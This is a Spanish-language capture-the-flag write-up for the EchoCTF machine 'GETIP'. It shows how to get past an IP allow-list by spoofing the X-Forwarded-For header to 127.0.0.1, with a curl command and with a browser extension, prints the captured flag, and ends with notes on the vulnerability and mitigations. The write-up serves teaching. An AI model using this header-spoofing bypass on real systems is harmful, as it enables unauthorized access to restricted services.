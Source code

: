 ![getip](GETIP.png)
# GETIP - CTF Writeup

---

## Introducción

La máquina **GETIP** de **EchoCTF** presenta un reto basado en la manipulación de cabeceras HTTP para lograr que el servidor interprete que la petición proviene de una IP permitida. La pista indica que cuando una solicitud web pasa por servidores intermedios, se añade una cabecera que indica para quién está siendo reenviada la petición. Para resolver el reto, debemos hacer que nuestra IP aparente ser `localhost` o `127.0.0.1`.

---

## Reconocimiento y Exploración

Al realizar una conexión HTTP a la dirección `http://10.0.41.6:1337/` recibimos la respuesta:

``` csharp
10.10.6.42 is not allowed...
```

Esta respuesta indica que la IP real desde la cual se realiza la petición (`10.10.6.42`) está bloqueada.

---

## Manipulación de Cabeceras para Bypass

Observamos que nos dice que nuestra `IP 10.10.6.42` no es permitida La hint anterior y esta respuesta indican que debemos de cambiar nuestra `IP a 127.0.0.1 o 'localhost'` mediante la manipulacion de cabeceras, esto se puede lograr de dos maneras, una grafica y una mediante terminal, explicare a continuacion ambas

### Método Terminal (usando curl)

Al hacer una petición simple con curl:

```bash
curl http://10.0.41.6:1337/
```

Obtenemos:

```
10.10.6.42 is not allowed...
```

Si queremos ver las cabeceras que nuestra petición envía, podemos usar:

```bash
curl -v http://10.0.41.6:1337/
```

Esto muestra información como:

```
> GET / HTTP/1.1
> Host: 10.0.41.6:1337
> User-Agent: curl/8.13.0
> Accept: */*
```

Para modificar la IP aparente, añadimos la cabecera `X-Forwarded-For` con la IP deseada:

```bash
curl -H "X-Forwarded-For: 127.0.0.1" http://10.0.41.6:1337/
```

Con esto, la petición aparenta venir de `127.0.0.1` en lugar de `10.10.6.42`.

Respuesta exitosa:

```
ETSCTF_SheesStealer_was_here%
```

---

### Método gráfico (usando navegador y extensiones)

1. Ingresamos a la URL `http://10.0.41.6:1337/` en el navegador y observamos el mensaje de bloqueo. 

![getip2](getip2.png)

2. Abrimos la extensión **ModHeader** (disponible para Chrome y Firefox).

![getip3](getip3.png)

3. Añadimos una nueva cabecera con:
   - Nombre: `X-Forwarded-For`
   - Valor: `127.0.0.1`
![getip4](getip4.png)

3. Recargamos la página o navegamos nuevamente a la URL.
4. La respuesta ahora nos mostrará la bandera correctamente.

---

## Identificación de Vulnerabilidades

- El servidor confía en el valor del header `X-Forwarded-For` sin validarlo adecuadamente.
- No existe un control de autenticación o validación de IPs robusto.
- La validación se basa únicamente en la IP remitida por cabeceras manipulables, lo que permite el spoofing.
- Esta confianza indebida abre la puerta a bypass de controles de acceso y filtrado.

---

## Medidas de Mitigación

- Validar y sanitizar las cabeceras `X-Forwarded-For` y similares para asegurarse que provienen de fuentes confiables.
- No confiar exclusivamente en cabeceras HTTP para determinar la IP real del cliente.
- Implementar controles de acceso basados en autenticación sólida en lugar de confiar en IPs.
- Configurar proxies y servidores frontales para evitar que usuarios puedan modificar cabeceras críticas.
- Registrar y monitorear accesos sospechosos y patrones anómalos.

---

``` c
Writeup Made With ❤️ By SheepsStealer
```

